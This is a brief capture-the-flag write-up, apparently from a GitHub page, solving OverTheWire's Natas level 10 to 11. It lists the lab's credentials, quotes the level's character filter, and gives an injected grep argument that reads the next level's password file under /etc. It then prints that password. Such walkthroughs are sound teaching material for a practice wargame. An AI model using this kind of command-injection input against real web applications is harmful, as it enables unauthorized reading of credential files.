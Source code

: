 ## Natas Level 10 → Level 11
- Go to url: http://natas10.natas.labs.overthewire.org
    - User: Natas10
    - Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
- Oh no they added a filter to the previous level!
    - preg_match('/[;|&]/',$key)
    - All the filter does is check if any of the following characters are inside so… we could just use a different command
- input “.* /etc/natas_webpass/natas11 #”, making the command “grep -i .* /etc/natas_webpass/natas11 # dictionary.txt”
    - U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
